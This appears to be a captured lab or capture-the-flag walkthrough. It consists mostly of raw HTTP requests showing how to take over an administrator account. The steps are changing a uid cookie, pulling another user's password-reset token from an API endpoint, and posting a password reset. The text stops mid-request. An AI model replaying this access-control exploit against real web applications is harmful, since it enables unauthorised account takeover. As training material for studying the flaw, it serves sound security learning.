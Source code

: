 {"token":"e51a8a3c-17ac-11ec-8e68-7fe51c0c175e"}

POST /reset.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=75
Connection: close

uid=75&token=e51a8a3c-17ac-11ec-8e68-7fe51c0c175e&password=Academy_student!

--> Access Denied


{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}

GET /api.php/token/52 HTTP/1.1
Host: 94.237.62.195:53851
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: */*
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=52
Connection: close

HTTP/1.1 200 OK
Date: Sun, 07 Jan 2024 21:55:42 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 48
Connection: close
Content-Type: text/html; charset=UTF-8

--> OK 

{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}

POST /reset.php HTTP/1.1
Host: 94.237.62.195:53851
Content-Length: 75
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.62.195:53851
Referer: http://94.237.62.195:53851/settings.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=jtagso9qrfk4hj4uh39i0o2qpj; uid=75
Connection: close
